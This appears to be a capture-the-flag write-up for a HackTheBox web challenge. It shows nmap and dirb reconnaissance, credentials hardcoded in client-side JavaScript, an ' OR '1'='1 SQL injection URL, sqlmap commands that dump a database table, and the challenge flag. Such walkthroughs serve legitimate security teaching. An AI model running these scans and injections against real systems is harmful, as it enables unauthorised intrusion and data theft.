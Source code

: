 # Web Exploitation: Breaking the Admin Panel

**Category:** Web  
**Event:** HackTheBox CTF 2023  
**Difficulty:** Medium  
**Date:** 2023-10-15

## Description

A walkthrough of bypassing client-side authentication and exploiting SQL
injection to access an admin panel.

## Solution

### Step 1: Initial Reconnaissance

First, let's explore the target application and understand its structure.

```bash
nmap -sC -sV target.com
dirb http://target.com /usr/share/wordlists/dirb/common.txt
```

### Step 2: Analyzing the Login Panel

The application has a login panel at `/admin/login.php`. Let's examine the
source code:

```html
<form id="loginForm" method="POST" action="/admin/verify.php">
  <input type="text" name="username" required />
  <input type="password" name="password" required />
  <button type="submit">Login</button>
</form>

<script>
  // Client-side validation
  function validateLogin() {
    if (username === "admin" && password === "secret123") {
      return true;
    }
    return false;
  }
</script>
```

### Step 3: Bypassing Client-Side Authentication

We can see the credentials are hardcoded in the JavaScript. Let's try:

- Username: `admin`
- Password: `secret123`

### Step 4: SQL Injection Discovery

After logging in, we find a search function that appears vulnerable to SQL
injection:

```
http://target.com/admin/search.php?query=test' OR '1'='1
```

### Step 5: Exploiting SQL Injection

Using SQLMap to extract data:

```bash
sqlmap -u "http://target.com/admin/search.php?query=test" --dbs
sqlmap -u "http://target.com/admin/search.php?query=test" -D admin_db --tables
sqlmap -u "http://target.com/admin/search.php?query=test" -D admin_db -T flags --dump
```

## Flag

```
HTB{cl13nt_s1d3_4uth_1s_n0t_s3cur3}
```

## Tools Used

- Nmap
- Dirb
- SQLMap
- Burp Suite

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Client-side Security](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
